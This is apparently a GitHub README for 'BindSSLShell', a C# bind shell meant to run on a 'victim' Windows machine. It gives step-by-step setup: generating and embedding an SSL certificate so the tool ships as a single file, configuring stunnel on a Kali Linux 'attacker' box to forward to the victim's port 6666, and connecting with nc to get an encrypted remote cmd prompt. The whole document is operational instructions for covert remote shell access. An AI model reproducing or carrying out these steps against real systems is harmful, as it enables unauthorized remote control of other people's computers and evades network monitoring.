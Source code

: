 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)

1. create the certificate:
   1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
   1. open a cmd as administrator and execute the following: makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
   1. enter required password, then execute: pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx. Enter required server password
1. include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy. Eventually you can embed the certificate and load it at runtime, more info: https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file, so you will have to deploy a single file.
<br/>	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc

1. install stunnel:
	1. apt-get install stunnel

1. configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	1.[nc]<bb/>client = yes
	accept = localhost:8443
	connect = <Victim IP>:6666
	--- end of file ---
	so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
1. start stunnel
	1. service stunnel4 start
		
1. check if it's running (optional)
	1. # netstat -tulp
	
	the output should be similar to:
	
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

1. presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	1. nc localhost 8443
	
1. you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
